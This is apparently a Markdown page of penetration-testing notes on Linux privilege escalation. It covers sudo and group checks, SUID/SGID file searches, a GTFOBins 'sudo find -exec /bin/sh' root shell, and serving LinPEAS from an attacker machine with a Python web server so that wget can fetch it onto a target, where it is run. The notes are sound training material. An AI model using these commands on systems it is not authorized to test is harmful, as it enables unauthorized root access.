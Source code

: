 # Root

 - [User Permissions](Root.md#user-permissions)
 - [File Permissions](Root.md#file-permissions)
 - [LinPEAS and LinEnum](Root.md#linpeas-and-linenum)

## User Permissions

```
Command Breakdown:
    sudo: Super user do
    -l: List the allowed permissions
```

```console
user@parrot:~$ sudo -l
Matching Defaults entries for user on parrot:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on parrot:
    (ALL) NOPASSWD: ALL
```

This is an example of the worst configuration for the sudo permissions;  
with this configuration, you can sudo anything without needing a password.

There are other configurations you're more likely to see,  
like specifying only being allowed to sudo a specific command,  
or using a command in a specific directory. 

### Groups

```console
user@parrot:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

Checking `id`, you can see what groups you're in and the respective ID's.  
If you're given a group membership that you shouldn't have,  
you could be given privileges equivalent of root for a command.

### GTFOBins

```console
user@parrot:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

Given sudo privileges of a random command and don't know how to get root with it?  
[GTFOBins](https://gtfobins.github.io/) is a great list of binaries and their strange security bypasses.

## File Permissions

```console
user@parrot:~$ ls -l /bin/wget
-rwxr-xr-x 1 root root 536128 Oct 26  2019 /bin/wget
```
Each file has permissions broken into three triads  
followed by the user that owns the file and the group the file belongs to.

| Owner | Group | World | Owner | Group |
|:-----:|:-----:|:-----:|:-----:|:-----:|
| r w x | r - x | r - x | Root  | Root  |

Each triad is then broken down into the individual permissions
 - `r` if reading is permitted, `-` if it is not
 - `w` if writing is permitted, `-` if it is not
 - `x` if executing is permitted, `-` if it is not

### Set User ID (SUID) and Set Group ID (SGID)
Whenever you execute a binary with either mode set, you're effectively executing it as the file's owner or a member of the file's group.  
The best example of this SUID permission is the `passwd` binary.

```console
user@parrot:~$ ls -l /bin/passwd
-rwsr-xr-x 1 root root 63960 Feb  7 08:54 /bin/passwd
```

Represented by the `s` in place of the owner execution `x`, we can find that those binaries have SUID enabled;  
this is what allows you to change your password in the `/etc/shadow` without root privileges.  

When you're looking for root privilege escalation, you might want to search for files that have one of these special permissions.  
Luckily, we can specify file permissions in the `find` command.

```
Command Breakdown:
    find: Search for files in a directory
    /bin/: The directory to search through
    -perm /u=s,g=s: Specifies to look for files with either SUID or SGID in that order
```

```console
user@parrot:~$ find /bin/ -perm /u=s,g=s
/bin/wall
/bin/newgrp
/bin/su
/bin/sudo
/bin/mount
/bin/umount
...
```

## LinPEAS and LinEnum

[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) and [LinEnum](https://github.com/rebootuser/LinEnum) are both great scripts for finding privilege escalation paths.  
To get these scripts onto a target machine, the easiest way is to use a python server to serve the file and use wget to download the file.  

```
Command Breakdown:
    python: An object-oriented programming languages
    -m SimpleHTTPServer: A module that opens a webserver to serve files in the current directory. 
```

```console
user@parrot:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
By default, SimpleHTTPServer will serve the files on port 8000,  
so when you want to wget your files, you'll have to specify the port.

```
Command Breakdown:
    wget: A tool to download files from the web
    10.10.15.1:8000: The address of your local machine that's serving the files.
```

```console
user@example:~$ wget 10.10.15.1:8000/linpeas.sh
--2021-01-12 22:07:20-- http://10.10.15.1:8000/linpeas.sh
Connecting to 10.10.15.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 318386 (311K) [text/plain]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>]        310.92K   --.-KB/s     in 0.004s

2021-01-12 22:07:20 (71.8 MB/s) - ‘linpeas.sh’ saved [318386/318386]
```

```
Command Breakdown:
    bash: Bourne-Again SHell
    linpeas.sh: The file you want to run
```

```console
user@example:~$ bash linpeas.sh
Starting linpeas. Caching Writable Folders...
...
```

Pro tip: Update your enumeration scripts from time to time; it can save you a lot of frustration.
